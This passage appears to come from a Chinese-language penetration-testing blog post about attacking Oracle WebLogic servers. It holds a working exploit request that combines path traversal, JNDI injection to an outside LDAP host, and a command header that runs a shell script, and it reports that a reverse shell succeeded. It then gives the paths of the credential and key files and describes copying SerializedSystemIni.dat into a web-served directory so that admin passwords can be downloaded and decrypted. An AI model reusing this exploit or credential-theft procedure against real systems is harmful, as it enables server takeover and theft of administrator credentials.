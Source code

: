 ```
GET /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.0.103:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
cmd:bash /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/1.sh 
Cookie: ADMINCONSOLESESSION=eGtTalBHY2b2h6x6DfgCrJxbHuT0iMHoaHMslzKGh8mUYeqeRMlD!1764575979
Upgrade-Insecure-Requests: 1
```

成功反弹到 shell  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknpTTd8w7aXghnHeM9Z0ibicRtBkOaKNX7Ub1ZOa5hVmDQWib3a2PNNxlXA/640?wx_fmt=png)

### 深入系列二、通过下载 SerializedSystemIni.da 文件解密 weblogic 账号密码

#### 第一步 找到账号密码和解密文件

账号密码位置

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/security
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLkn4NdIHy76eK6tzFulP2Rlx5tMR6sMdmZ2fBIMKny9ySJp6f9TXXCC7Q/640?wx_fmt=png)

SerializedSystemIni.dat 文件位置

```
/u01/oracle/user_projects/domains/base_domain/security
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLkn5aTfpkWFcxViaUTWeHc8D1XjJnq2iaKs4kxsFD2ia0VTPJjav5Vpzjr4Q/640?wx_fmt=png)

#### 第二步 找到 web 目录

war 目录一般存在的位置

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknpGicovLaNjFYrzDlJ91yfgMlcVQiaqgToXJZyDOGqvF0R6BgYSePNu5g/640?wx_fmt=png)  

将 SerializedSystemIni.dat 拷贝到 war 目录

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknzsHw8wHKJwo4QIv2dsOlTkQaglRm9Xr471z9IaMUyPTbpIOxLEjUww/640?wx_fmt=png)

#### 第三步 下载 SerializedSystemIni.dat 并解密
